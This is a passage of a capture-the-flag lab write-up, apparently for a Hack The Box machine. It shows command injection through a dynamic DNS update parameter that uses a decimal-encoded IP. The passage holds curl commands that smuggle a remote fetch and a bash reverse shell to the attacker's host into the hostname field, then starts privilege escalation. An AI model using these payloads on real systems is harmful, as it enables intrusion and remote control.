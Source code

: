 For some reaosn, it's having trouble displaying our IP address. It seems limited to 8 characters, so let's try to change our IP address to decimal mode. After some testing involving the different subdomains, we can find one that works:

```
$ curl -G --data-urlencode 'hostname=$(curl 168431117/rce).no-ip.htb' http://dynadns:sndanyd@dyna.htb/nic/update 
911 [nsupdate failed]
```

<figure><img src="../../../.gitbook/assets/image (38) (7) (1).png" alt=""><figcaption></figcaption></figure>

```
$ curl -G --data-urlencode 'hostname=$(bash -c "bash -i >& /dev/tcp/168431117/4444 0>&1").no-ip.htb' http://dynadns:sndanyd@dyna.htb/nic/updat
```

<figure><img src="../../../.gitbook/assets/image (21) (8) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We can't grab the user flag yet. There are 2 other users on the machine:

```
www-data@dynstr:/home$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 Mar 15  2021 .
drwxr-xr-x 18 root    root    4096 May 25  2021 ..
drwxr-xr-x  5 bindmgr bindmgr 4096 Mar 15  2021 bindmgr
drwxr-xr-x  3 dyna    dyna    4096 Mar 18  2021 dyna
```

### Bindmgr Shell

Within the `bindmgr` directory, there is a support case folder:

```
www-data@dynstr:/home/bindmgr$ ls
support-case-C62796521  user.txt
```
